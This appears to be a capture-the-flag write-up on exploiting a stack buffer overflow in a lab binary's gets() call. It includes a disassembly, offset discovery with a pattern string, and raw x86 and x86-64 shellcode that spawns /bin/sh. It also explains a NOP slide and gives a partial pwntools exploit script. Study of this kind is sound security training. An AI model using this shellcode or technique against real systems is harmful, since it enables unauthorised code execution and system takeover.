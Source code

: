 Disassembling `start_level()` gives us:

```assembly
   0x000000000040058d <+0>: push   rbp
   0x000000000040058e <+1>: mov    rbp,rsp
   0x0000000000400591 <+4>: add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>: lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>: mov    rdi,rax
   0x000000000040059c <+15>: call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>: nop
   0x00000000004005a2 <+21>: leave  
   0x00000000004005a3 <+22>: ret  
```

We need to override the ret address to make the instruction pointer (`rip`) return to our shellcode. This we can do by determining the padding/offset. We use the usual strategy of inputting a predictable pattern to the program and viewing the register at the segmentation fault. Input: `AAAAAAAAAAAAAAAAAAAAABBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJMMMMNNNNPPPPRRRR`. This gives a segfault as it overwrites the return address with `PPPPRRRR` Meaning the padding becomes the entire string withour `P` and `R`. The overwrite cause the `rip` register to load the `P` and `R` portion of the string, causing the segmentation fault as this address does not exist.

**NOTE:** In order to determine offset in a less tedious manner, use the either pwntools or metasploit tools to create a pattern. This is detailed later in this writeup or in the `buffer_overflow.md` in this repo.

Shellcode for Linux x86-64, executes `/bin/sh`:
`\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`.

Shellcode for Linux x86, executes `execve(/bin/sh)`:
`\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80`.

Constructing the payload can be done by appendeing the shellcode to the padding and then the desired return address to the shellcode. Effectively it will look like this: `padding + shellcode + return address`. We ofcourse need to fill the padding with `\0x90` in order to construct our NOP slide.

The stack addresses can change for each execution as can also be seen in GDB when running the program. To counter this, the environment variables can be unset using `unset env`. Yet the NOP slide should be plenty to cope with this problem.

For this particular exercise I had friend introduce me to a less tedious method of solving this kind of problems. We are going to be using pwntools and python to both determine offset and run the binary:

```python
from pwn import *
context.arch = "amd64"
# If local.
# exe = ELF("/home/alexander/bin/cybersecurity/writeups/HTB/academy/buffer_overflow/stack-five")
# r = process([exe.path])
# r.interactive()
padding = b"\x90"
# address = "\xb0\xec\xff\xff"
address = p64(0x4004c3)
# 28 bytes intelx86, not for amd64
# shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
offset = cyclic_find(b"jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva")

shellcode = shellcraft.amd64.linux.sh()
shellcode = asm(shellcode)

# Right justify i.e shift shellcode with padding until it is 128 in length (to the right).
# shellcode = shellcode.ljust(offset, padding)
# left justify as we know that we are jumping to the code, due jmp rax.
shellcode = shellcode.ljust(offset, padding)
```